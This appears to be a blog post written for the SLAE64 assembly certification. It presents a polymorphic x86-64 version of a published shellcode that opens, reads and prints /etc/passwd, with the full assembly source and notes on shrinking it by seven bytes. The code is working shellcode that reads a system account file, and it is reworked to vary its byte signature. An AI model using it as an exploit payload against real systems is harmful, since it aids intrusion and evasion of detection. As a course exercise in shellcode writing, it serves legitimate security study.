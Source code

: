 # Polymorphic version of Mr. Un1k0d3rs 'read /etc/passwd/' shellcode

Orig source:
```
http://shell-storm.org/shellcode/files/shellcode-878.php
```

My polymorphic version of the shellcode reduces the size by 7 bytes and keeps the same functionality as the original code.

## Changes
1. Usage of smaller instructions such as ```cdq``` to zero or rdx or ```push; pop``` instead of ```mov```
2. Optimized usage of syscall's return values
3. Reuse of nulled registers to avoid xoring others

## Asm
```
BITS 64
; Polymorphic version of Mr. Un1k0d3rs /etc/passwd read shellcode
; Orig Size: 82 bytes
; Polymorphic size: 75 bytes

global _start

section .text

_start:
xor rax, rax
mov rsi, rax ; null out rsi
cdq ; null out rdx
inc al
inc al
jmp _push_filename

_readfile:
; syscall open file
pop rdi ; pop path value
xor byte [rdi + 11], 0x42
syscall

; syscall read file
xchg rdi, rax ; put new fd in rdi
mov rax, rdx ; rdx is still zero and can be used to null out rax
mov dx, 0xfff; size to read
sub sp, dx ; Make some space on the stack
push rsp
pop rsi ; rsi points to buffer on stack
syscall

; syscall write to stdout
mov rdx, rax ; rax contains the number of read bytes
xor rdi, rdi
push rdi
pop rax ; avoid xor rax,rax
inc rdi ; rdi contains stdout
inc al ; SYS_write
syscall

; syscall exit
xor rax, rax
add al, 60
syscall

_push_filename:
call _readfile
path: db "/etc/passwdB"
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
